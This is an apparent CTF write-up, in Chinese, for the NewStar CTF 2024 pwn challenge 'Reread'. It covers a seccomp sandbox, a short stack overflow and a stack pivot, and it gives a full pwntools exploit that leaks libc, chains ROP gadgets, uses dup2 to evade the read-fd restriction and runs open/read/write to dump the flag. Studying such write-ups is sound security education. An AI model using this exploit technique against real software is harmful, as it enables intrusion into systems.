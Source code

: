 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Reread

先查看沙箱

![查看沙箱](/assets/images/wp/2024/week4/reread_1.png)

可以看到除了只允许open read write dup2四个系统调用外，还增添了一个额外条件

那就是执行read系统调用时，第一个参数必须是0

查看主要函数vuln，直接一个栈溢出贴脸，但是溢出的长度很短，算上rbp的话其实只能覆盖范围地址这一个地方

```c
int vuln()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("[+] Ok let's try your best!!馃構");
  read(0, buf, 0x50uLL);
  return puts("done!");
}
```

那该怎么办呢

我们来仔细看一下汇编，通过gdb动态调试可以知道，其实是`lea rsi,[rbp]`

然在前面的栈溢出中我们可以控制rbp，如果把返回地址覆盖成4013ac，那我们就可以向任意地址写入0x50字节

同时第二次读入的时候，rbp又是可控的，程序也会执行leave ret，如此，便构成了一次巧妙的栈迁移

```asm
.text:00000000004013AC                 lea     rax, [rbp+buf]
.text:00000000004013B0                 mov     edx, 50h ; 'P'  ; nbytes
.text:00000000004013B5                 mov     rsi, rax        ; buf
.text:00000000004013B8                 mov     edi, 0          ; fd
.text:00000000004013BD                 call    _read
.text:00000000004013C2                 lea     rdi, aDone      ; "done!"
.text:00000000004013C9                 call    _puts
.text:00000000004013CE                 nop
.text:00000000004013CF                 leave
.text:00000000004013D0                 retn
```

至于上文sandbox中设置的syscall_read的一参必须为0的问题，可以使用dup2系统调用

具体用法为dup2(fd,new_fd)，可以看作new_fd是fd的一个拷贝，同时会close(fd)

所以，exp如下

```python
from pwn import *
import sys
from ctypes import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux','splitw','-h']

libc = ELF('./libc.so.6')
elf = ELF('./pwn')
flag = 1
if flag:
    p = remote('0.0.0.0', 9999)
else:
    p = process("./pwn")

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))

reread = 0x4013ac
pop_rdi = 0x0000000000401473
lea_ret = 0x00000000004012ec

payload = b'a'*0x40 + p64(elf.bss(0x800)) + p64(reread)
# gdb.attach(p)
sd(payload)

payload = p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x401394) + b'./flag\x00\x00'
payload = payload.ljust(0x40,b'\x00')
payload += p64(elf.bss(0x7b8)) + p64(lea_ret)
sd(payload)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - libc.sym['puts']
leak("libc", libc.address)

pop_rsi = 0x000000000002601f + libc.address
pop_rdx_r12 = 0x0000000000119431 + libc.address
pop_rax = 0x0000000000036174 + libc.address
syscall = 0x00000000000630a9 + libc.address

payload = b'a'*0x40 + p64(elf.bss(0xa00)) + p64(reread)
sd(payload)

payload = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(elf.bss(0x9f8)) + p64(pop_rdx_r12) + p64(0x200)*2 + p64(elf.plt['read'])
payload += p64(elf.bss(0x9b8)) + p64(lea_ret)
sd(payload)

orw = flat([
    pop_rdi,elf.bss(0x9f8),
    pop_rsi,0,
    pop_rdx_r12,0,0,
    pop_rax,2,
    syscall,
    pop_rdi,3,
    pop_rsi,0,
    pop_rax,33,
    syscall,
    pop_rdi,0,
    pop_rsi,elf.bss(0x100),
    pop_rdx_r12,0x40,0x40,
    pop_rax,0,
    syscall,
    pop_rdi,1,
    pop_rax,1,
    syscall,
])
sd(b'./flag\x00\x00' + orw.ljust(0x1f8,b'\x00'))
p.interactive()
```
